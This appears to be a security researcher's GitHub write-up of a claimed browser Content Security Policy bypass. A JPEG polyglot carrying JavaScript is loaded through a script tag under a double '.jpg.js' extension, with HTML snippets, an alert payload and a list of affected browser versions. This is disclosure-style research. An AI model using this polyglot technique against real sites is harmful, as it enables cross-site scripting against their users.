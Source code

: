 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header.


## Proof of concept Step-by-step

The image used in this PoC is as follows

![alt](https://ciber.sejalivre.org/WP/2x.jpg)


Available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg


These are the image strings with the embedded JS code:

![alt](https://ciber.sejalivre.org/WP/xxd.png)


The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: 

* Scenario 1: http://joomla.sejalivre.org/index.html

* Scenario 2: http://joomla.sejalivre.org/index2.html


## Scenario 1

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

Below is the browser blocking MIME confusion attack via its Content Security Policy:

![alt](https://ciber.sejalivre.org/WP/console1.png)


## Scenario 2 - PoC of attack

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by `<script>` tag and as image by `<img>` tag.


Below is the browser allowing MIME confusion attack by bypass in your Content Security Policy

![alt](https://ciber.sejalivre.org/WP/console2.png)









## Vulnerable Browsers

This PoC has been tested on the following browsers:

* Mozilla Firefox < 71.0 (Windows, Linux and Android)
* Google Chrome < 79.0.3945.88 (Windows, Linux and Android)
* Google Chromium < 81.0.4003.0 (Windows and Linux)
* Apple Safari 13.0.4 < (MacOS Catalina)
* Opera 60 - R3 < (Windows and Linux)
* Microsoft Edge < 44.18362.449.0 (Windows 10)
* Microsoft Internet Explorer < 11 (Windows 10)


## Screenshots

Below are some screenshots of PoC

Google Chrome
![alt](https://ciber.sejalivre.org/WP/chrome.png)

Google Chromium
![alt](https://ciber.sejalivre.org/WP/chromium.png)

Mozilla Firefox
![alt](https://ciber.sejalivre.org/WP/Firefox.png)

Opera
![alt](https://ciber.sejalivre.org/WP/opera.png)

Safari
![alt](https://ciber.sejalivre.org/WP/Safari.jpeg)

Edge
![alt](https://ciber.sejalivre.org/WP/edge.png)

IE
![alt](https://ciber.sejalivre.org/WP/IE.png)

